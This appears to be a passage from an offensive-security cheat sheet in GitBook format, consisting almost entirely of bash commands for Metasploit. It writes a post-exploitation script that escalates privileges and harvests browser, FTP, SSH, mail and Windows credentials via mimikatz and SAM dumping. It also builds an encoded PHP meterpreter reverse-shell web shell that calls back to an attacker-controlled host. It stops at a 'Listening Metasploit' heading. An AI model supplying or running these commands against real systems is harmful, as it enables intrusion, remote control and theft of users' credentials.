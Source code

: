 {% hint style="info" %}
Define ENV Cert
{% endhint %}

```bash
CERT=/home/$USER/.msf4/loot/$(find /home/$USER/.msf4/loot/ -type f -name "*.pem" -printf "%f\n" | head -n 1)
```

{% hint style="info" %}
Post-EXP
{% endhint %}

```bash
cat > /tmp/post-exp.rc << EOF
getprivs
getsystem
run multi/gather/firefox_creds DECRYPT=true
run multi/gather/filezilla_client_cred
run multi/gather/ssh_creds
run multi/gather/thunderbird_creds
run multi/gather/wlan_geolocate
mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
bg
EOF
```

{% hint style="info" %}
Generate Webshell
{% endhint %}

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         HandlerSSLCert=$CERT \
         StagerVerifySSLCert=true \
         PayloadUUIDTracking=true \
         PayloadUUIDName=StagedPHP \
         EnableStageEncoding=true \
         -f raw \
         -e php/base64 \
         -i 3 \
         -o /tmp/unk9vvn.php; \
sed -i "s#eval#<?php eval#g" /tmp/unk9vvn.php; \
sed -i "s#));#)); ?>#g" /tmp/unk9vvn.php
```

{% hint style="info" %}
Listening Metasploit
{% endhint %}
